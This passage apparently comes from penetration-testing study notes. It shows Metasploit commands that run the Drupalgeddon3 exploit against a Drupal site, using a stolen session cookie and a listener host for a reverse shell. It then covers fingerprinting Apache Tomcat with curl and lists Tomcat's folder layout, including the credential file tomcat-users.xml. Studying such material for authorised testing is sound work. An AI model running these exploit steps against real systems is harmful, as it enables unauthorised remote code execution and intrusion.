Modified the script to send this file.

Now [Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3). We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie. Now with Metasploit:
```console
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts <TARGET>
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST <VHOST>   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session <COOKIE>
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE <ID>
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST <OUR IP>
msf6 exploit(multi/http/drupal_drupageddon3) > run
```

---

# Servlet Containers 

## Tomcat

Apache Tomcat is an open-source web server that hosts applications. Tomcat is often less apt to be exposed to the internet. Tomcat servers can be identified by the Server header in the HTTP response. If the server is operating behind a reverse proxy, requesting an invalid page should reveal the server and version. Custom error pages may be in use that do not leak this version information. In this case, another method of detecting a Tomcat server and version is through the `/docs`{: .filepath} page:
```console
zero@pio$ curl -s http://<TARGET>:8080/docs/ | grep Tomcat 
```

Here is the general folder structure of a Tomcat installation:
```
  
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost
```
